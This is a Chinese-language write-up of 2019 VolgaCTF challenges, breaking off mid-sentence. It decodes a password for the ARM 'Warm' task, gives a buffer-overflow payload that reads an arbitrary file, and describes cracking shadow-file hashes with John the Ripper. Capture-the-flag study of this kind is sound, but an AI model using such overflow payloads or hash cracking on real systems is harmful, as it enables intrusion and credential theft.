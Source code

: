 # 2019VolgaCTF & 2019SunshineCTF writeup

用户名：snow

## VolgaCTF:

- warm/Shadow Cat/JOI

### Warm

这道题是 arm 架构下的，不过没什么区别。没有环境的话要先搭一下，直接连服务器做也可以。

先简单解个密：

```python
s=""
s+=chr(0x23^85);
s+= chr(ord(s[-1])^78)
s+= chr(ord(s[-1])^30)
s+= chr(ord(s[-1])^21)
s+= chr(ord(s[-1])^94)
s+= chr(ord(s[-1])^28)
s+= chr(ord(s[-1])^33)
s+= chr(ord(s[-1])^1)
s+= chr(ord(s[-1])^52)
s+= chr(ord(s[-1])^7)
s+= chr(ord(s[-1])^53)
s+= chr(ord(s[-1])^17)
s+= chr(ord(s[-1])^55)
s+= chr(ord(s[-1])^60)
s+= chr(ord(s[-1])^114)
s+= chr(ord(s[-1])^71)
p.sendline(s);

print(len(s))
print(s)
```

得到 `v8&3mqPQebWFqM?x`

程序很明显有溢出，进行覆盖可以读取任意文件，接下来就靠猜了...

文件名是 `sacred`

payload: `v8&3mqPQebWFqM?xpppppppppppppppppppppppppppppppppppppaaaaaaabbbbbxppppppppppppppppppppppppppppppppppsacred`

flag: `VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle}`

## ShadowCat

用 john 进行破解，首先用默认的字典，发现破解速度极慢，破解出来的都是单字符，想想也是... 所以自己创建一个可打印字符的字典，使用 --wordlist 设置破解就好了，最后把破解得到的数据与密文对应的字符进行替换，得到 
